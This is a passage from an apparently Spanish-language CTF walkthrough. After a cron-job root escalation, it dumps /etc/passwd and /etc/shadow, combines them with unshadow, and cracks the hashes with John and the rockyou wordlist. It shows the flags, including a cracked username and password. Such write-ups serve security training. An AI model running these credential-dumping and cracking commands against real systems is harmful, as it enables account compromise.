Cuando el **cron job** se ejecuta, nuestro script en `/tmp/kho` es lanzado por **root** y recibimos la conexión.
Ya como usuario **root** exploramos el directorio y encontramos un único archivo `root.txt`

✅ **Flag CTF:** `flag{UID0_access_granted_2025}`

## 🏆Última Flag
 Como usuario **root**, tenemos acceso de lectura a los archivos críticos del sistema:
 ```bash
 cat /etc/passwd
 ```
  
```bash
cat /etc/shadow
```
  
### Preparación de los Archivos en Máquina Local
Copiamos el contenido de ambos archivos y lo guardamos en nuestra máquina atacante.
### Unshadow: Combinando Passwd y Shadow
Utilizamos la herramienta **unshadow** para combinar ambos archivos en un formato que **John** pueda procesar:
```bash
nano passwd
# Pegamos el contenido de /etc/passwd

nano shadow
# Pegamos el contenido de /etc/shadow

unshadow passwd shadow > contraseña

john --wordlist=/usr/share/wordlists/rockyou.txt contraseña
```
  
✅ **Flag CTF:** `hacker:jpgaultier`